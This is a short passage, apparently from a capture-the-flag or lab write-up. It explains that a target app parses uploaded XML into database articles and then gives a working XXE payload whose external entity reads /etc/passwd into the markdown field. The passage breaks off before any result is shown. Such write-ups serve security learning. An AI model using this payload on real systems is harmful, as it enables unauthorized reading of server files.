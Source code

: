 ![](img/2022-06-03-13-40-14.png)
Meaning it is processing the content of the xml to insert the article in the database. We can perform an XXE injection to try to read the content of `/etc/passwd`:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
  <post>
    <title>Test article</title>
    <description>This is a test made by developers, ignore it</description>
    <markdown>&xxe;</markdown>
  </post>
```
The result of uploading it is: